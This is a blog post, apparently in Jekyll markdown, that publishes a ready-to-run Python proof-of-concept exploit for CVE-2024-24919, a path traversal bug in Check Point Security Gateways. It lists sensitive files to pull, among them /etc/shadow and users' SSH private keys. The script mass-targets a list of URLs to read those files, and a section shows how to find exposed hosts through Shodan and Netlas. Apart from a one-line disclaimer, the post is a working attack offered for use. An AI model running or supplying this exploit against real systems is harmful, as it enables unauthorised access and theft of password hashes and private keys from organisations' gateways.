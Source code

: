 ```yaml
---
title: CVE-2024-24919
description: Allows an attacker to read certain information on Check Point Security Gateways once connected to the internet and enabled with remote Access VPN or Mobile Access Software Blades.
author: BW
date: 2024-06-13 20:00:00 - 0500
categories: [CyberSecurity, Offensive Security]
tags: [offsec]     # TAG names should always be lowercase
image:
  path: /assets/img/posts/2024-06-13-CVE-2024-24919/CVE-2024-24919.png
  lqip: /assets/img/posts/2024-06-13-CVE-2024-24919/CVE-2024-24919.png
---
```

Proof of Concept python script that exploits what's essentially a path traversal issue.

Below are a list of files that are vulnerable - including the shadow file which contains the hashed passwords.
1. ../../../../../../../etc/fstab
2. ../../../../../../../etc/shadow
3. ../../../../../../../sysimg/CPwrapper/SU/Products.conf
4. ../../../../../../../config/db/initial
5. ../../../../../../../etc/passwd
6. ../../../../../../../home/*/.ssh/authorized_keys
7. ../../../../../../../opt/checkpoint/conf/
8. ../../../../../../../etc/ssh/sshd_config
9. ../../../../../../../etc/vpn/vpn.conf
10. ../../../../../../../home/*/.ssh/id_rsa

### The PoC Script
```python
import argparse
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning

# Suppress SSL warnings
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

vuln = ['root:', 'nobody:']

def make_request(url, payload=None, headers=None):
    try:
        response = requests.post(url, data=payload, headers=headers, verify=False)
        if response.ok:
            for word in vuln:
                if word in response.text:
                    print(f"[+] {url} is vulnerable")
                    if payload and payload.startswith("aCSHELL/../../../../../../../etc/shadow"):
                        print("╔══════════════════════════════════════════════════════╗")
                        print("║                      etc/shadow found:               ║")
                        print("╚══════════════════════════════════════════════════════╝")
                        print("╔══════════════════════════════════════════════════════╗")
                        print(f"                      {response.text}                ")
                        print("╚══════════════════════════════════════════════════════╝")
                    elif payload:
                        print("╔══════════════════════════════════════════════════════╗")
                        print("║                      Your file was found:            ║")
                        print("╚══════════════════════════════════════════════════════╝")
                        print("╔══════════════════════════════════════════════════════╗")
                        print(f"                      {response.text}                ")
                        print("╚══════════════════════════════════════════════════════╝")
                    return
            print(f"[-] {url} is not vulnerable")
        else:
            print(f"[-] {url} responded with status code: {response.status_code}")
    except requests.RequestException as e:
        print(f"Error making request to {url}: {e}")

def main():
    payload = "aCSHELL/../../../../../../../etc/shadow"
    parser = argparse.ArgumentParser(description="CVE-2024-24919 POC")
    parser.add_argument("-l", metavar='filename', type=str, help="File containing list of HTTP/HTTPS targets")
    parser.add_argument("-f", metavar='file', type=str, help="File to read for custom payload (May break on multiple targets with unknown files.)")
    args = parser.parse_args()

    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate, br",
        "Upgrade-Insecure-Requests": "1",
        "Sec-Fetch-Dest": "document",
        "Sec-Fetch-Mode": "navigate",
        "Sec-Fetch-Site": "none",
        "Sec-Fetch-User": "?1",
        "Dnt": "1",
        "Sec-Gpc": "1",
        "Te": "trailers",
        "Connection": "close"
    }

    payload_base = "aCSHELL/../../../../../../../{}"

    if args.f:
        payload = payload_base.format(args.f)

    if args.l:
        try:
            with open(args.l, 'r') as file:
                urls = file.readlines()
                for url in urls:
                    url = url.strip()
                    if url.startswith('http://') or url.startswith('https://'):
                        make_request(url + '/clients/MyCRL', payload=payload, headers=headers)
                    else:
                        print(f"Skipping invalid URL: {url}")
        except FileNotFoundError:
            print(f"Error: File '{args.l}' not found.")
    else:
        print("Please provide a file containing list of HTTP/HTTPS targets using -l option.")

if __name__ == "__main__":
    main()
```
{: file='exploit.py'}

### Finding targets

![Desktop View](/assets/img/posts/2024-06-13-CVE-2024-24919/netlas.png){: width="972" height="589" .w-75 .normal}

![Desktop View](/assets/img/posts/2024-06-13-CVE-2024-24919/shodan.png){: width="972" height="589" .w-75 .normal}

### Example of output

![Desktop View](/assets/img/posts/2024-06-13-CVE-2024-24919/output.png){: width="972" height="589" .w-75 .normal}

> This is for educational purposes. Only try this on systems you own. Please don't do anything illegal.
{: .prompt-danger }
